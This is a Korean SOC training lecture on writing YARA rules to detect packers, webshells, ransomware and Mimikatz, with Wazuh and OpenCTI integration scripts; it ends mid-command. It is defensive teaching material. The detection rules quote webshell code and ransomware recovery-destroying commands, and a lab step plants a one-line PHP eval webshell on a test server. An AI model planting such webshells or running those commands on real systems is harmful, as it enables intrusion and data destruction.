- `sigmac -t elasticsearch-qs rule.yml` — Elastic용 KQL 변환
- `sigmac -t wazuh rule.yml` — Wazuh XML 룰 변환
- `yara -r rules.yar /var/tmp/sample.bin` — 재귀 스캔

> **해석 팁.** SIGMA는 *탐지 의도*, YARA는 *바이너리 패턴*으로 역할 분리. SIGMA 룰은 반드시 **false positive 조건**까지 기술해야 SIEM 운영 가능.

---

## 실제 사례 (WitFoo Precinct 6 — Threat Intel Platform)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Threat Intel Platform* 학습 항목 매칭.

### Threat Intel Platform 의 dataset 흔적 — "OpenCTI integration"

dataset 의 정상 운영에서 *OpenCTI integration* 신호의 baseline 을 알아두면, *Threat Intel Platform* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — 외부 feed × dataset 매칭.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | OpenCTI integration |
| 정량 baseline | 외부 feed × dataset 매칭 |
| 학습 매핑 | TI feed 운영 |

**자세한 해석**: TI feed 운영. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | OpenCTI integration 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Threat Intel Platform = OpenCTI integration 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — 외부 feed × dataset 매칭.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: OpenCTI 1주 운영.


---

## 부록: 학습 OSS 도구 매트릭스 (Course14 SOC Advanced — Week 04 YARA 룰·악성코드 탐지·TI 통합)

> 이 부록은 lab `soc-adv-ai/week04.yaml` (15 step + multi_task) 의 모든 명령을
> 실제로 실행 가능한 형태로 도구·옵션·예상 출력·해석을 정리한다. YARA 의 기본
> 구조부터 PE/패커/웹쉘/랜섬웨어 시그니처, 모듈 (math/hash/cuckoo), 자동 생성
> (yarGen), Wazuh 연동, OpenCTI 의 IOC → YARA 자동화까지 풀 워크플로우.

### lab step → 도구·YARA 매핑 표

| step | 학습 항목 | 핵심 OSS 도구 / 명령 | ATT&CK |
|------|----------|---------------------|--------|
| s1 | YARA 기본 구조 (meta/strings/condition) | `yara`, `yarac`, syntax | - |
| s2 | PE 파일 구조 룰 (MZ/sections/imports) | `yara` + `pe` module | - |
| s3 | 패커 탐지 (UPX/Themida/VMProtect) | YARA + DIE + pestudio | T1027.002 |
| s4 | 웹쉘 탐지 (PHP/JSP/ASP) | YARA + neopi + shellscan | T1505.003 |
| s5 | 랜섬웨어 탐지 (CryptEncrypt + 랜섬노트) | YARA + Win32 API 시그니처 | T1486 |
| s6 | YARA 고급 조건 (for/of/#/@) | `yara -s`, syntax | - |
| s7 | YARA 모듈 (math/hash/cuckoo) | `import "math"`, entropy | - |
| s8 | 실제 파일 스캔 (/var/www/) | `yara -r`, recursive scan | T1505.003 |
| s9 | 룰 최적화 (성능 측정) | `yara -p N`, profiling | - |
| s10 | YARA + Wazuh 연동 (Active Response) | wodle command + AR script | - |
| s11 | 커뮤니티 룰 평가 | YARA-Rules / Awesome YARA / Malpedia | - |
| s12 | 메모리 스캔 | `yara` + `/proc/<pid>/mem` | T1059 (fileless) |
| s13 | 자동 룰 생성 (yarGen) | yarGen + python | - |
| s14 | TI 피드 연동 (IOC → YARA) | OpenCTI + STIX2 + python | - |
| s15 | YARA 탐지 종합 보고서 | yara-stats + markdown | - |
| s99 | 통합 다단계 (s1→s2→s3→s4→s5) | Bastion plan: 구조→PE→패커→웹쉘→랜섬웨어 | 다중 |

### 학생 환경 준비 (YARA 풀세트)

```bash
# === [s1·s8·s9] YARA 본체 ===
sudo apt install -y yara python3-yara
yara --version          # 4.3+

# YARA 컴파일러 (대량 룰 빠른 로드)
which yarac

# === [s2·s3·s7] PE 분석 + 패커 탐지 ===
# pefile (Python) — PE 헤더 분석
pip install --user pefile

# Detect It Easy (DIE) — 패커 + 컴파일러 식별
sudo apt install -y die-engine 2>/dev/null || \
  wget https://github.com/horsicq/DIE-engine/releases/latest/download/die_3.10_Ubuntu_22.04_amd64.deb && \
  sudo dpkg -i die_*.deb

# pestudio (Windows GUI, Linux 시 wine)
# sudo apt install -y wine
# wine pestudio.exe

# === [s4·s11] 웹쉘 + 커뮤니티 룰 ===
# YARA-Rules 공식 저장소 (수천 룰)
git clone https://github.com/Yara-Rules/rules /tmp/yara-rules
ls /tmp/yara-rules/
# antidebug_antivm/  capabilities/  cve_rules/  email/  exploit_kits/
# malware/           maldocs/       packers/    webshells/

# Awesome YARA (큐레이션 + 메타룰)
git clone https://github.com/InQuest/awesome-yara /tmp/awesome-yara

# Florian Roth's Signature Base (실전 검증된 룰)
git clone https://github.com/Neo23x0/signature-base /tmp/signature-base

# Malpedia (참조)
# https://malpedia.caad.fkie.fraunhofer.de/

# === [s5] 랜섬웨어 ===
# Loki — 무료 IOC scanner (signature-base 활용)
git clone https://github.com/Neo23x0/Loki /tmp/loki
cd /tmp/loki && pip install -r requirements.txt

# === [s10] Wazuh 연동 ===
# 이미 siem 에 wazuh 가 있음
ssh ccc@10.20.30.100 'sudo cat /var/ossec/etc/ossec.conf | grep -A 5 "wazuh_modules"'

# === [s12] 메모리 스캔 ===
sudo apt install -y procps
which yara
# 메모리 dump 도구 (옵션)
sudo apt install -y volatility3

# === [s13] yarGen 자동 룰 생성 ===
git clone https://github.com/Neo23x0/yarGen /tmp/yargen
cd /tmp/yargen && pip install -r requirements.txt
# DB 다운로드 (수십 GB, 옵션 — strings DB 만 수MB)
python3 yarGen.py --update    # goodware strings DB 다운로드

# === [s14] OpenCTI + STIX2 연동 ===
ssh ccc@10.20.30.100 'curl -s http://localhost:8080/health'
pip install --user pycti stix2

# IOC → YARA 자동 변환
git clone https://github.com/marirs/yara-rules-converter /tmp/yara-conv

# === 추가 도구 ===
# YaraGuardian / yara-pyqt — Web UI
pip install --user yaraguardian

# Klara — 분산 YARA 스캔 (Kaspersky)
git clone https://github.com/KasperskyLab/klara /tmp/klara

# yara-validator — CI/CD 통합
pip install --user yara-validator
```

### 핵심 도구별 상세 사용법

#### 도구 1: YARA 룰 기본 구조 (Step 1)

```yara
// === 표준 YARA 룰 양식 (3 섹션 모두) ===
import "pe"
import "math"
import "hash"

rule Mimikatz_Default_Filename : credential_access trojan
{
    meta:
        author = "SOC Team"
        date = "2026-05-02"
        description = "Mimikatz default filename + sekurlsa command"
        reference = "https://attack.mitre.org/software/S0002/"
        mitre = "T1003.001"
        severity = "critical"
        version = 1
        hash_md5 = "029a5cefb1b6f0027d2bdb3a6088a7d1"

    strings:
        // text strings
        $cmd1 = "sekurlsa::logonpasswords" ascii wide nocase
        $cmd2 = "lsadump::sam" ascii wide nocase
        $cmd3 = "kerberos::ptt" ascii wide nocase

        // hex pattern (machine code)
        $hex1 = { 4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF }   // PE header

        // regex
        $re1 = /mimi(katz|lib)\.exe/i

        // wildcard hex
        $hex_wild = { 4D 5A ?? ?? ?? 00 ?? ?? }                  // PE header (loose)

    condition:
        // 단순 boolean
        any of ($cmd*) and pe.is_pe

        // 또는 더 엄격
        // (2 of ($cmd*) or $hex1 at 0) and pe.imports("crypt32.dll")
}

// === ATT&CK 메타 활용 룰 ===
rule Webshell_PHP_Generic : webshell php
{
    meta:
        author = "SOC Team"
        description = "Generic PHP webshell — eval/exec/system + base64"
        mitre = "T1505.003"
        severity = "high"

    strings:
        $eval = "eval(" ascii nocase
        $exec = "exec(" ascii nocase
        $system = "system(" ascii nocase
        $passthru = "passthru(" ascii nocase
        $b64 = "base64_decode(" ascii nocase
        $req = /\$_(GET|POST|REQUEST|COOKIE)\[/

    condition:
        filesize < 50KB and
        any of ($eval, $exec, $system, $passthru) and
        $b64 and
        $req
}
```

```bash
# 룰 검증
yara -w mimikatz.yar /bin/ls            # 단일 파일 테스트
# 출력 (매칭 없음 — 정상)

# 매칭 시
yara -w mimikatz.yar /tmp/malware/sample.exe
# Mimikatz_Default_Filename /tmp/malware/sample.exe

# 디테일
yara -ws mimikatz.yar /tmp/malware/sample.exe
# Mimikatz_Default_Filename [author=SOC Team,...] /tmp/malware/sample.exe
# 0x1234:$cmd1: sekurlsa::logonpasswords

# 룰 파일 자체 syntax 검증
yara -w mimikatz.yar /dev/null
# 매칭 없음, 오류 없으면 syntax OK
```

**Meta 표준 필드**:
- `author`, `date`, `description`, `reference`, `mitre`, `severity`, `version`, `hash_md5/sha256`

**문자열 modifier**:
- `ascii` (default) / `wide` / `ascii wide` (둘 다)
- `nocase` / `fullword` / `xor` / `base64` / `private`

#### 도구 2: PE 파일 구조 룰 (Step 2)

```yara
import "pe"

rule Suspicious_PE_With_Crypt_API : suspicious pe
{
    meta:
        description = "PE 파일이 crypt API 다수 임포트 (랜섬웨어 의심)"
        mitre = "T1486"
        severity = "high"

    condition:
        // PE 매직 바이트
        pe.is_pe and

        // 섹션 수 (정상: 2-5, 이상: 1 또는 10+)
        pe.number_of_sections >= 1 and
        pe.number_of_sections <= 10 and

        // 의심 import (Crypt API)
        (pe.imports("advapi32.dll", "CryptEncrypt") or
         pe.imports("advapi32.dll", "CryptGenKey") or
         pe.imports("crypt32.dll")) and

        // 의심 import (자기보호 / 안티디버그)
        (pe.imports("kernel32.dll", "IsDebuggerPresent") or
         pe.imports("ntdll.dll", "NtQueryInformationProcess")) and

        // 작은 파일 (랜섬웨어는 보통 <2MB)
        filesize < 2MB
}

rule PE_With_Suspicious_Sections : pe suspicious
{
    meta:
        description = "PE 의 섹션명이 의심 (.exe, .text 가 아닌 이상한 이름)"

    condition:
        pe.is_pe and
        for any i in (0..pe.number_of_sections - 1) :
        (
            pe.sections[i].name matches /^(\.upx|\.themida|\.vmp|\.aspack|\.mpress)/
        )
}

rule PE_Stripped_Symbols : pe
{
    meta:
        description = "PE 바이너리에 심볼 정보 제거 — 분석 회피 신호"

    condition:
        pe.is_pe and
        pe.number_of_exports == 0 and
        pe.number_of_imports < 5 and        // 거의 모든 API 호출 안 함 (의심)
        filesize > 100KB
}
```

```bash
# PE 파일 직접 분석
yara -ws pe-rules.yar /tmp/samples/
# 매칭된 룰 + 섹션 + 출력

# 정상 파일 vs 악성 파일 비교
yara -ws pe-rules.yar /bin/ls /tmp/samples/ransomware.exe
# /bin/ls — 매칭 없음 (정상)
# /tmp/samples/ransomware.exe — Suspicious_PE_With_Crypt_API 매칭

# pefile 로 직접 확인 (cross-validation)
python3 << 'PY'
import pefile
pe = pefile.PE('/tmp/samples/ransomware.exe')
print(f"Sections: {[s.Name.decode().strip() for s in pe.sections]}")
print(f"Imports:")
for entry in pe.DIRECTORY_ENTRY_IMPORT:
    print(f"  {entry.dll.decode()}: {[imp.name.decode() if imp.name else 'ord' for imp in entry.imports[:5]]}")
PY
```

#### 도구 3: 패커 탐지 (Step 3)

```yara
// === UPX 탐지 (가장 흔한 패커) ===
rule UPX_Packed : packer
{
    meta:
        description = "UPX packer signature"
        mitre = "T1027.002"

    strings:
        $sig1 = "UPX0" ascii
        $sig2 = "UPX1" ascii
        $sig3 = "UPX!"
        $hint = "$Info: This file is packed with the UPX executable packer"

    condition:
        2 of ($sig*) or $hint
}

// === Themida ===
rule Themida_Packer : packer commercial
{
    meta:
        description = "Themida (advanced anti-tampering)"

    strings:
        $sig1 = "ÆWILDF" ascii
        $sig2 = ".Themida" ascii
        $sig3 = "Themida is a registered trademark" ascii

    condition:
        any of them
}

// === VMProtect ===
rule VMProtect_Packer : packer commercial vm_obfuscation
{
    meta:
        description = "VMProtect (virtualization-based obfuscation)"

    strings:
        $sig1 = ".vmp0" ascii
        $sig2 = ".vmp1" ascii
        $sig3 = ".vmp2" ascii

    condition:
        any of them
}

// === 일반 — 비정상 entropy + import table 부재 ===
import "pe"
import "math"

rule Generic_Packer_High_Entropy : packer suspicious
{
    meta:
        description = "패커 일반 시그니처 — 고 엔트로피 + 낮은 import"

    condition:
        pe.is_pe and
        // 모든 섹션의 평균 entropy > 7.0 (압축/암호화 강함)
        for all i in (0..pe.number_of_sections - 1) :
        (
            math.entropy(
                pe.sections[i].raw_data_offset,
                pe.sections[i].raw_data_size
            ) > 7.0
        ) and
        pe.number_of_imports < 5
}
```

```bash
# 패커 스캔
yara -wr packers.yar /tmp/samples/
# 출력: 각 파일의 패커 종류

# DIE (Detect It Easy) 와 cross-validation
die /tmp/samples/sample1.exe
# Output: PE32 / Console / UPX 3.96
# YARA 매칭 = UPX_Packed ✓

# 고엔트로피 직접 측정 (validation)
python3 -c "
import math
with open('/tmp/samples/packed.exe','rb') as f:
    data = f.read()
freq = [0] * 256
for b in data:
    freq[b] += 1
total = len(data)
entropy = -sum((c/total) * math.log2(c/total) for c in freq if c > 0)
print(f'Entropy: {entropy:.3f}')
"
```

#### 도구 4: 웹쉘 탐지 (Step 4)

```yara
// === PHP 웹쉘 — 일반 ===
rule WebShell_PHP_Generic : webshell php
{
    meta:
        description = "PHP webshell — eval/exec + GET/POST"
        mitre = "T1505.003"
        severity = "high"

    strings:
        $exec1 = "eval(" ascii nocase
        $exec2 = "exec(" ascii nocase
        $exec3 = "system(" ascii nocase
        $exec4 = "passthru(" ascii nocase
        $exec5 = "shell_exec(" ascii nocase
        $exec6 = "proc_open(" ascii nocase

        $b64 = "base64_decode(" ascii nocase
        $req = /\$_(GET|POST|REQUEST|COOKIE)\[/
        $php = "<?php"

    condition:
        $php and
        filesize < 100KB and
        2 of ($exec*) and
        $b64 and
        $req
}

// === c99 웹쉘 (시그니처) ===
rule WebShell_PHP_c99 : webshell php c99
{
    meta:
        description = "c99 PHP webshell — well-known signature"

    strings:
        $sig1 = "c99shell" ascii nocase
        $sig2 = "c99sh_" ascii nocase
        $sig3 = "captain crunch security team" ascii nocase
        $sig4 = "Encoder Decoder" ascii nocase

    condition:
        any of them
}

// === China Chopper (간단 + 위험) ===
rule WebShell_ChinaChopper : webshell china_chopper
{
    meta:
        description = "China Chopper webshell — 1-line"

    strings:
        $php = /<\?php\s+@?eval\(\$_POST\[['"][^'"]+['"]\]\);\s*\?>/
        $jsp = /<%\s*Runtime\.getRuntime\(\)\.exec\(/
        $asp = /<%\s*eval\s+request\s*\(/

    condition:
        any of them and filesize < 5KB
}

// === JSP 웹쉘 ===
rule WebShell_JSP_Generic : webshell jsp
{
    meta:
        description = "JSP webshell — Runtime.exec"

    strings:
        $exec = "Runtime.getRuntime().exec("
        $proc = "ProcessBuilder("
        $req = "request.getParameter("
        $resp = "response.getOutputStream"

    condition:
        all of ($exec, $req) or all of ($proc, $req, $resp)
}

// === ASP / .NET ===
rule WebShell_ASP_Generic : webshell asp
{
    meta:
        description = "ASP/aspx webshell"

    strings:
        $eval = "eval(Request" ascii nocase
        $exec = "WScript.Shell" ascii nocase
        $cmd = "Server.CreateObject" ascii nocase
        $proc = "Process.Start("

    condition:
        any of them and filesize < 50KB
}
```

```bash
# 웹쉘 스캔 (실 환경)
yara -wr webshell.yar /var/www/

# 결과
# WebShell_PHP_Generic /var/www/uploads/document.php
# WebShell_ChinaChopper /var/www/html/test.php

# 격리 + 분석
mkdir /tmp/quarantine
mv /var/www/uploads/document.php /tmp/quarantine/

# 추가 도구 — neopi (의심 PHP 식별)
git clone https://github.com/Neohapsis/NeoPI /tmp/neopi
python3 /tmp/neopi/neopi.py -a /var/www/
# 통계적 anomaly (entropy / IC / longest word) 로 탐지
```

#### 도구 5: 랜섬웨어 탐지 (Step 5)

```yara
import "pe"
import "math"

rule Ransomware_Crypto_API : ransomware crypto
{
    meta:
        description = "랜섬웨어 — Crypt API + 작은 EXE + 고엔트로피"
        mitre = "T1486"
        severity = "critical"

    condition:
        pe.is_pe and
        pe.imports("advapi32.dll", "CryptEncrypt") and
        pe.imports("advapi32.dll", "CryptGenKey") and
        // 자기 삭제 (anti-recovery)
        pe.imports("kernel32.dll", "DeleteFileA") and
        // 파일시스템 enum
        (pe.imports("kernel32.dll", "FindFirstFileW") or
         pe.imports("shell32.dll", "SHGetFolderPathW")) and
        filesize < 2MB
}

rule Ransomware_Note : ransomware note
{
    meta:
        description = "랜섬노트 텍스트 시그니처"

    strings:
        $note1 = "Your files have been encrypted" ascii nocase
        $note2 = "decryption key" ascii nocase
        $note3 = "send bitcoin to" ascii nocase
        $note4 = "ransom" ascii nocase
        $btc = /\b[13][a-km-zA-HJ-NP-Z1-9]{25,34}\b/    // BTC 주소
        $monero = /\b4[a-zA-Z0-9]{94}\b/                  // Monero
        $tox = "tox.chat" ascii nocase                     // anonymous communication

    condition:
        2 of ($note*) and (any of ($btc, $monero, $tox))
}

rule Ransomware_Extension_Change : ransomware
{
    meta:
        description = "잘 알려진 랜섬웨어 확장자 (파일에서 추출)"

    strings:
        $ext1 = ".lockbit" ascii nocase
        $ext2 = ".conti" ascii nocase
        $ext3 = ".ryuk" ascii nocase
        $ext4 = ".revil" ascii nocase
        $ext5 = ".sodinokibi" ascii nocase
        $ext6 = ".lockbit3" ascii nocase
        $ext7 = ".blackcat" ascii nocase
        $ext8 = ".alphv" ascii nocase
        $ext9 = ".cl0p" ascii nocase
        $ext10 = ".royal" ascii nocase

    condition:
        any of them
}

// === API 호출 시퀀스 ===
rule Ransomware_API_Sequence : ransomware
{
    meta:
        description = "Crypt API + Find File + Delete File 시퀀스"

    strings:
        // Crypto setup
        $api1 = "CryptAcquireContextW" ascii wide
        $api2 = "CryptGenKey" ascii wide
        $api3 = "CryptEncrypt" ascii wide

        // File enumeration
        $api4 = "FindFirstFileW" ascii wide
        $api5 = "FindNextFileW" ascii wide

        // Cleanup
        $api6 = "DeleteFileW" ascii wide

        // Wallpaper change (랜섬노트)
        $api7 = "SystemParametersInfoW" ascii wide

        // Volume Shadow 삭제
        $cmd1 = "vssadmin delete shadows" ascii nocase
        $cmd2 = "wbadmin delete catalog" ascii nocase
        $cmd3 = "bcdedit /set {default} recoveryenabled No" ascii nocase

    condition:
        4 of ($api*) and any of ($cmd*)
}
```

```bash
# 랜섬웨어 스캔 (격리 sandbox 에서만)
yara -wr ransomware.yar /tmp/sandbox-samples/
# 출력: 매칭된 룰 + 시그니처

# Loki 로 종합 스캔 (signature-base 활용)
cd /tmp/loki
sudo python3 loki.py -p /tmp/sandbox-samples
# 모든 IOC 카테고리 (YARA / hash / filename / regin) 적용
```

#### 도구 6: YARA 모듈 + 고급 조건 (Step 6·7)

```yara
import "pe"
import "math"
import "hash"
import "elf"

// === for / of / # / @ 활용 ===
rule Advanced_Conditions : advanced
{
    meta:
        description = "for 반복문 + of 연산자 + 카운트(#) + 오프셋(@)"

    strings:
        $a = "MZ" ascii
        $b = "PE\x00\x00" ascii
        $c1 = "GetProcAddress" ascii
        $c2 = "LoadLibraryA" ascii
        $c3 = "VirtualAlloc" ascii
        $c4 = "VirtualProtect" ascii
        $c5 = "WriteProcessMemory" ascii

    condition:
        // 위치 (offset) 검사
        $a at 0 and                      // 파일 시작에 MZ
        $b in (0x80..0x200) and          // PE 헤더가 0x80~0x200 사이

        // 카운트 (#) 검사
        #c1 > 5 and                      // GetProcAddress 가 5번 이상 사용

        // for 반복문
        for any i in (0..#c1 - 1) :
        (
            @c1[i] > 0x1000               // GetProcAddress 호출 위치가 0x1000 이상
        ) and

        // of 연산자
        3 of ($c*) and                    // c 시리즈 중 3개 이상

        // 모두 (all of)
        all of them
}

// === Math 모듈 — entropy ===
rule High_Entropy_Section : packer crypto
{
    meta:
        description = "암호화/패킹된 섹션 (entropy > 7.0)"

    condition:
        pe.is_pe and
        for any i in (0..pe.number_of_sections - 1) :
        (
            math.entropy(
                pe.sections[i].raw_data_offset,
                pe.sections[i].raw_data_size
            ) > 7.0
        )
}

// === Math + 평균/표준편차 ===
rule Suspicious_Byte_Distribution : suspicious
{
    meta:
        description = "비정상 바이트 분포 (평균 ~127 외)"

    condition:
        // 평균 바이트값이 정상 영문/PE 와 다름
        math.mean(0, filesize) > 100 and
        math.mean(0, filesize) < 200 and

        // 분포 deviation 작음 (균등 분포 = 암호화)
        math.deviation(0, filesize, math.mean(0, filesize)) < 50
}

// === Hash 모듈 — 알려진 악성 hash ===
rule Known_Malware_Hash : malware ioc
{
    meta:
        description = "알려진 악성 파일 SHA256"

    condition:
        hash.sha256(0, filesize) == "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"
        or hash.sha256(0, filesize) == "a665a45920422f9d417e4867efdc4fb8a04a1f3fff1fa07e998e86f7f7a27ae3"
}

// === Cuckoo 모듈 (sandbox 결과 활용) ===
import "cuckoo"

rule Suspicious_Behavior_Cuckoo : behavior cuckoo
{
    meta:
        description = "Cuckoo sandbox 결과 — 의심 행위"

    condition:
        cuckoo.network.dns_lookup(/.*\.(onion|bit)$/) or
        cuckoo.network.http_request(/torproject\.org/) or
        cuckoo.registry.key_access(/.*\\Run\\.*/) or
        cuckoo.process.api_call(/CryptEncrypt/)
}

// === ELF 모듈 (Linux 바이너리) ===
rule Suspicious_ELF : elf linux
{
    meta:
        description = "Linux 바이너리 — 의심 syscall 다수"

    condition:
        elf.type == elf.ET_EXEC and
        elf.number_of_sections > 0 and
        for any i in (0..elf.number_of_sections - 1) :
        (
            elf.sections[i].name == ".text" and
            math.entropy(
                elf.sections[i].offset,
                elf.sections[i].size
            ) > 7.0
        )
}
```

#### 도구 7: yarGen 자동 룰 생성 (Step 13)

```bash
# === yarGen — 악성코드 sample 에서 룰 자동 생성 ===
cd /tmp/yargen

# 1. goodware DB 다운로드 (정상 strings 제외용, 첫 실행)
python3 yarGen.py --update

# 2. 룰 생성 (sample 디렉터리)
python3 yarGen.py \
  -m /tmp/malware-samples/ \
  -o /tmp/auto-rules.yar \
  --good-strings-db /tmp/yargen/dbs/good-strings.db

# 출력 예
# /tmp/auto-rules.yar
# rule sig_sample1 {
#   meta:
#     description = "Auto-generated by yarGen"
#     hash = "abc123..."
#   strings:
#     $s1 = "unique_malware_string_1"
#     $s2 = { 4D 5A 90 ... }
#   condition:
#     2 of them
# }

# 3. 자동 룰 정제 — 너무 일반적인 strings 제거
python3 yarGen.py \
  -m /tmp/malware-samples/ \
  -o /tmp/refined-rules.yar \
  --excludegood    # goodware strings 제외
  --opcodes        # opcode 패턴 추가 (binary)
  --strings        # string 패턴 (default)
  -z 100           # min unique strings 100개 이상

# 4. 생성된 룰 검증 (false positive 측정)
yara -w /tmp/refined-rules.yar /usr/bin/   # goodware 디렉터리 스캔
# 매칭 0 = 정상 (FP 없음)

yara -w /tmp/refined-rules.yar /tmp/malware-samples/   # 원본 매칭 확인
# 매칭 N = 룰이 sample 의 N 개 매칭 (TP)

# 5. 사람 검토 + 수동 보강
# - 의미 있는 string 만 남기기
# - condition 추가 (filesize / pe.is_pe)
# - meta (mitre, severity) 채우기
# - reference (분석 보고서 URL)

# === Klara — 분산 YARA 스캔 ===
cd /tmp/klara
docker-compose up -d
# Web UI: http://localhost:8000
# 대용량 파일셋 (TB) 빠른 스캔
```

#### 도구 8: Wazuh + YARA 연동 (Step 10)

```bash
# === Wazuh wodle command ===
ssh ccc@10.20.30.100 'sudo tee -a /var/ossec/etc/ossec.conf' << 'XML'
<wodle name="command">
  <disabled>no</disabled>
  <tag>yara_scan</tag>
  <command>/var/ossec/integrations/yara_scan.sh</command>
  <interval>1h</interval>
  <ignore_output>no</ignore_output>
  <run_on_start>yes</run_on_start>
  <timeout>300</timeout>
</wodle>
XML

# YARA 스캔 스크립트
ssh ccc@10.20.30.100 'sudo tee /var/ossec/integrations/yara_scan.sh' << 'SCRIPT'
#!/bin/bash
YARA_RULES=/var/ossec/etc/yara/all-rules.yar
SCAN_DIRS="/var/www /tmp /home"

for dir in $SCAN_DIRS; do
    yara -r -f -w $YARA_RULES $dir 2>/dev/null | while read -r line; do
        echo "yara_match: $line"
    done
done
SCRIPT
ssh ccc@10.20.30.100 'sudo chmod +x /var/ossec/integrations/yara_scan.sh'

# Wazuh 룰 — yara_match 출력 매칭
ssh ccc@10.20.30.100 'sudo tee -a /var/ossec/etc/rules/local_rules.xml' << 'XML'
<group name="custom,yara,">
  <rule id="100800" level="13">
    <decoded_as>command</decoded_as>
    <field name="command">yara_scan</field>
    <regex>yara_match: \w+ /</regex>
    <description>YARA detected malicious file: $(matched_signature)</description>
    <mitre><id>T1505.003</id></mitre>
    <group>malware,detection,critical,</group>
    <options>alert_by_email</options>
  </rule>
</group>
XML

# === Active Response — YARA 매칭 시 격리 ===
ssh ccc@10.20.30.100 'sudo tee /var/ossec/active-response/bin/yara-quarantine.sh' << 'AR'
#!/bin/bash
ACTION=$1   # add | delete
USER=$2
IP=$3
ALERTID=$4
RULEID=$5

if [ "$ACTION" = "add" ]; then
    # ALERTID 에서 파일 경로 추출 (실 운영은 더 robust)
    FILEPATH=$(grep "$ALERTID" /var/ossec/logs/alerts/alerts.log | grep -oP '/var/www/\S+')
    if [ -n "$FILEPATH" ] && [ -f "$FILEPATH" ]; then
        mkdir -p /var/ossec/quarantine
        mv "$FILEPATH" "/var/ossec/quarantine/$(basename $FILEPATH).$(date +%s).quar"
        chmod 000 "/var/ossec/quarantine/"*.quar
        logger -t wazuh-yara-AR "Quarantined: $FILEPATH"
    fi
fi
AR
ssh ccc@10.20.30.100 'sudo chmod +x /var/ossec/active-response/bin/yara-quarantine.sh'

# Active Response 등록
ssh ccc@10.20.30.100 'sudo tee -a /var/ossec/etc/ossec.conf' << 'XML'
<command>
  <name>yara-quarantine</name>
  <executable>yara-quarantine.sh</executable>
  <expect/>
  <timeout_allowed>no</timeout_allowed>
</command>

<active-response>
  <command>yara-quarantine</command>
  <location>local</location>
  <rules_id>100800</rules_id>
</active-response>
XML

ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-control restart'

# === 검증 ===
# 1. 의심 파일 생성
ssh ccc@10.20.30.80 'echo "<?php eval(\$_POST[\"x\"]); ?>" > /var/www/html/test.php'

# 2. Wazuh 가 YARA 스캔 (1h 주기 또는 즉시 fim)
sleep 60

# 3. Wazuh alert 확인
ssh ccc@10.20.30.100 'sudo tail /var/ossec/logs/alerts/alerts.log | grep yara'

# 4. 격리 확인
ssh ccc@10.20.30.100 'ls /var/ossec/quarantine/'
```

#### 도구 9: 메모리 스캔 (Step 12)

```bash
# === 단일 프로세스 메모리 스캔 ===
ps aux | grep suspicious_proc
PID=12345

# yara 의 -p 옵션 = pid (실시간)
sudo yara -w -p $PID mimikatz.yar
# Mimikatz_Default_Filename pid:12345

# === 모든 프로세스 메모리 스캔 ===
for pid in $(ps -eo pid --no-headers); do
    sudo timeout 5 yara -w -p $pid /tmp/all-rules.yar 2>/dev/null
done

# === Volatility 3 + YARA (메모리 덤프 분석) ===
# 1. 메모리 덤프 (LiME)
sudo insmod /tmp/lime/src/lime-$(uname -r).ko "path=/tmp/mem.lime format=lime"

# 2. Volatility 3 + yarascan
vol3 -f /tmp/mem.lime linux.yarascan \
  --yara-file /tmp/all-rules.yar

# 출력
# OFFSET (V)         PID    COMM        Rule
# 0xffff9b2c12345000 1234   bash        WebShell_PHP_Generic
# 0xffff9b2c45678000 5678   apache2     Mimikatz_Default_Filename

# === 파일 vs 메모리 차이 ===
# 파일: 패킹/암호화로 인해 시그니처 hidden
# 메모리: 런타임에 unpack 되어 시그니처 가시화
# → fileless malware 는 메모리 스캔이 유일 탐지법

# === 메모리 dump 즉시 분석 (Linux 무 LiME) ===
# /proc/<pid>/mem 직접 읽기 (root 필요)
sudo cat /proc/12345/maps | head -10        # 메모리 영역
sudo dd if=/proc/12345/mem of=/tmp/proc-12345.dump bs=1 count=1000000 2>/dev/null
yara -w /tmp/all-rules.yar /tmp/proc-12345.dump
```

#### 도구 10: TI 피드 + YARA 자동화 (Step 14)

```bash
# === OpenCTI → IOC → YARA 자동 변환 ===
ssh ccc@10.20.30.100 'curl -s http://localhost:8080/health'

# pycti 로 indicators 가져오기
python3 << 'PY'
from pycti import OpenCTIApiClient
import json

client = OpenCTIApiClient(
    url="http://10.20.30.100:8080",
    token="YOUR_OPENCTI_TOKEN",
    log_level="info",
)

# 최근 hash IOC 200 건
hashes = client.indicator.list(
    filters={"mode":"and","filters":[{"key":"indicator_types","values":["malicious-activity"]}]},
    first=200,
)

# YARA 룰 생성
yara_rules = []
for h in hashes:
    pattern = h.get('pattern', '')   # STIX2 pattern, 예: [file:hashes.SHA256 = 'abc...']
    if 'SHA256' in pattern:
        sha = pattern.split("'")[1]
        rule_name = f"OpenCTI_Hash_{sha[:8]}"
        yara_rules.append(f"""
rule {rule_name} : opencti hash
{{
    meta:
        description = "OpenCTI imported hash IOC"
        source = "opencti"
        date = "2026-05-02"
        sha256 = "{sha}"
    condition:
        hash.sha256(0, filesize) == "{sha}"
}}
""")

with open('/tmp/opencti-iocs.yar', 'w') as f:
    f.write("import \"hash\"\n\n")
    f.write("\n".join(yara_rules))

print(f"Generated {len(yara_rules)} YARA rules from OpenCTI")
PY

# === STIX2 → YARA 변환 도구 ===
git clone https://github.com/marirs/yara-rules-converter /tmp/yara-conv
python3 /tmp/yara-conv/stix2yara.py \
  --input opencti-export.json \
  --output /tmp/converted-rules.yar

# === MISP → YARA ===
# MISP 의 attribute 중 yara 타입 직접 export
curl -k -H "Authorization: $MISP_KEY" -H "Accept: application/json" \
